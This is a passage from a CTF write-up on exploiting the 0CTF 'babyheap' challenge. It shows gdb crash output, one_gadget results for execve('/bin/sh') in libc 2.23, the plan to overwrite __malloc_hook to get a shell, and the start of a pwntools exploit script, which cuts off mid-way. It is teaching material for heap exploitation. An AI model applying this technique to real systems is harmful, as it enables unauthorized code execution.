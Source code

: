 ```
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "0ctfbabyheap", stopped 0x7fbd1b603278 in __libc_calloc (), reason: SIGSEGV
```

### One gadget

We can use `one_gadget` to find a ROP gadget that we can set to the `__malloc_hook` so when an allocation occurs, we drop to a shell.

```
root@test:/ctf/work# one_gadget /glibc/2.23/64/lib/libc-2.23.so
/var/lib/gems/2.7.0/gems/one_gadget-1.7.3/lib/one_gadget/fetchers/base.rb:32: warning: Using the last argument as keyword parameters is deprecated; maybe ** should be added to the call
/var/lib/gems/2.7.0/gems/one_gadget-1.7.3/lib/one_gadget/gadget.rb:27: warning: The called method `initialize' is defined here
0x3f3d6 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x3f42a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd5bf7 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

At the time of the crash `rsp+0x30` == NULL, so we can use the second gadget.
```
gef➤  x/10x $rsp+0x30
0x7fffa1b558e0: 0x00000000      0x00000000      0x0280aac0      0x00002fe9
0x7fffa1b558f0: 0x00000009      0x00000001      0x60263800      0xe64d39bd
0x7fffa1b55900: 0xa1b55920      0x00007fff
```
## Final Script

```python=
from pwn import *
context.terminal = ['tmux', 'splitw', '-v']
file_path = "./0ctfbabyheap"
context.binary = elf =  ELF(file_path)
libc = elf.libc
io = process(file_path)

# gdb.attach(p)
def allocate(size):
    io.sendline("1")
    io.sendlineafter("Size:",str(size))

def fill(index, data):
    io.sendline("2")
    io.sendlineafter("Index:",str(index))
    io.sendlineafter("Size:",str(len(data)))
    io.sendlineafter("Content:",data)

def free(index):
    io.sendline("3")
    io.sendlineafter("Index:",str(index))

def dump(index):
    io.sendline("4")
```
